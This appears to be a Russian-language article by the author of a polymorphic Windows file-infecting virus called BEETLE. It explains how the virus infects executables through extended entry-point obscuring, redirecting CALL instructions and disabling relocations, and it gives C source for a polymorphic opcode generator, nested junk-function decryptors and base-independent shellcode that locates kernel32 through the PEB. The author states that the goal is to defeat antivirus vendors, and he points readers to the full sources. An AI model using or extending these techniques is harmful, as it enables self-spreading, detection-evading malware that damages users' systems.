








Полиморфный файловый вирус BEETLEХарактеристики
Принцип работыКаждый зараженный файл будет играть роль носителя полезной нагрузки.
В качестве примера рассмотрим зараженный winmine.exe, у которого в качестве полезной нагрузки будет
calc.exe. 

  Декриптор выделяет память, копирует данные из последней секции, расшифровывает второй «адский» декриптор и передает управление на него. Адский декриптор представляет очень большое количество вложенных полиморфных функций. И операции декриптора «размазаны» по этим функциям.
 После его исполнения расшифруется шеллкод, который запустит полезную нагрузку и восстановит всю краденную информацию у зараженного файла, продолжит его управление.  Для заражения файлов используется две техники:
Расширенное EPOПоиск CALL производится не от точки входа, а по всей исполняемой секции. Причем для поиска не применяются никакие сложные алгоритмы. Алгоритм выглядит так:
После таких нехитрых операций вирус получает все call вызовы в программе.
В результате получится список функций и длина. Используя эти данные, инфектор рандомно выбирает одну, «крадет» ее и встраивает туда свой первый декриптор. Но нужно не забывать, что на эту функцию могут указывать релоки, которые "изуродуют" код декриптора. И чтобы этого не произошло, нужно отключить релоки для адресов, которые переходят внутрь функции. Кроме этого, инфектор не знает логику выполнения программы, и, возможно, что эта грабленная функция никогда не исполнится. Для увеличения вероятности он переадресует несколько случайно выбранных call на код, а точнее на полиморфный декриптор. Полиморфный генераторЛюбой генератор должен уметь создавать произвольные опкоды. В инфекторе генерация элементарных опкодов производится достаточно просто. Для генерации инструкций в памяти введены следующие функции для работы с памятью: struct BLOCK{ uint32 size; uint8* data; }; bool add_block(BLOCK *b,uint8* data,int size){ if (!b->size){ b->data=(uint8*)malloc(size); if (!b->data) return false; }else{ b->data=(uint8*)realloc(b->data,b->size+size); if (!b->data) return false; } memcpy(&b->data[b->size],data,size); b->size+=size; return true; } Описание регистров и основных операций: enum REG{ _RAX=0, _RCX=1, _RDX=2, _RBX=3, _RSP=4, _RBP=5, _RSI=6, _RDI=7, }; enum OP2{ _XOR = 0x30, _ADD = 0x00, _SUB = 0x28, _AND = 0x20, _OR = 0x08, _MOV = 0x88, _CMP = 0x38, _TEST =0x82, }; И сделаны простые функции, которые генерируют как один опкод, так целый класс опкодов: struct OPCODE_2{ uint8 o1; uint8 o2; }; int _OP_RR(BLOCK *b,uint32 o,uint8 r1,uint8 r2,bool x64=false){ int i=0; if (x64){ uint8 pref=0x48; add_block(b,(uint8*)&pref,sizeof(pref)); i++; } OPCODE_2 op; op.o1=0x03+o&0xFF; op.o2=0xC0+r2+8*r1; add_block(b,(uint8*)&op,sizeof(OPCODE_2)); i+=2; return i; } int _PUSH_R(BLOCK *b,uint8 reg){ int i=1; uint8 op=0x50|reg; add_block(b,&op,1); return i; }
mov edx, key mov eax, data mov ecx, size/4 l1: xor [eax],edx add eax, 4 loop l1 А вот как это будет выглядеть с использованием функций: BLOCK b; b.size=0; int i=0; l+=_OP_RC(&b, _MOV, _RDX, key); l+=_OP_RC(&b, _MOV, _RAX, data); l+=_OP_RC(&b, _MOV, _RCX, size/4); int l1=l; l+=_OP_ArR(&b, _XOR, _RAX, _RDX); l+=_OP_RC(&b, _ADD, _RAX, 4); l+=LOOP(l1-(l+2)); Этот код уже легко можно усложнить, например, между инструкциями добавлять мусор, менять регистры, морфить основные команды. Все это реализовано при генерации первого декриптора. А вот второй декриптор будет гораздо сложнее. "Адский" мусорДля усложнения декриптора было решено генерировать большое количество вложенных функций и инструкции декриптора размазать по ним. В первом декрипторе одна инструкция равна одной полезной команде. Было решено одну полезную инструкцию, пусть будет "mov eax, 0x12345678", помещать в функцию. В результате должен получиться такой код: push ebp mov ebp, esp sub esp, local_size trash_1 — мусорные инструкции mov eax, 0x12345678 — полезная команда trash_2 — мусорные инструкции leave ret В результате таких нехитрых действий можно потерять значение eax после выполнения кода в trash_2. Так как trash может генерировать различные инструкции, которые будут работать с eax. Для этого был введен "контекст", в котором задаются рабочие регистры. И если при генерации мусора выполняется работа с рабочим регистром, то он заносится в локальную переменную для этой функции. struct REG_ITEM{ uint32 value; //значение регистра uint32 local; //номер локальной переменной bool st; //флаг включения регистра bool l_st; //флаг, информирующий, что регистр перемещен в локальную переменную }; REG_ITEM reg[8]; И вот пример, как это будет работать:
Вот так выглядит одна функция, которая выполняет mov eax, 12345678:  Назовем такой генератор gen_call_op. Так как сейчас можно контролировать состояние регистров в генерируемых функциях. Можно строить более сложные конструкции. Например, генерировать несколько функций, и объединяю их в func4: func1: .. func2: .. func3: mov eax,12345678 … func4: call func1 trash1 call func2 trash2 call func3 trash3 И так можно сделать несколько слоев. Граф выполнения всего одной полезной команды выглядит так:  В этом графе полезная инструкция может быть на месте любой функции.
Для данного графа функция, которая содержит инструкцию, обведена красным квадратом.
Назовем такой генератор gen_tree_op. Не составит труда переделать его под x64, большинство инструкций отличаются лишь префиксом. Свойства генератора:
ШеллкодКод, который выполняет полезную нагрузку и восстанавливает грабленные части файла: cвободно-релоцируемый и написан полностью на си. Обычно такой код пишется на ассемблере, возможно, для версии x64 придется его и использовать, но для x86 можно обойтись си. Принцип написания базонезависимого кода был взят из вируса 0x02 pr0m1x. Из критических изменений можно выделить поиск базы kernel32.dll. В моем коде ищется через PEB, перечисляются все имена загруженных dll и считается их хеш. Такой способ работает на всей линейке XP до WIN8. Выводы:
Все эти характеристики должны создать головную боль аверам, и если это будет так, то все мои труды были потрачены не зря... Исходники: sources/pest/beetle
|